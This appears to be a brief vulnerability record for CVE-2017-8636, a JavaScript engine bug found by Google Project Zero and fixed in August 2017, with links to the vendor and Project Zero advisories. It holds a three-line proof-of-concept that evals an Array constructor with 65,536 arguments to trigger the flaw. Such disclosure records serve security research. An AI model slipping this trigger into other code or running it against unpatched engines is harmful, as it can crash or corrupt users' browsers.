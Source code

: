# CVE-2017-8636

- Fix: Aug 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
let args = new Array(0x10000);
args = args.fill(0x1234).join(', ');
eval('new Array(' + args + ')');
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8636)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1315)
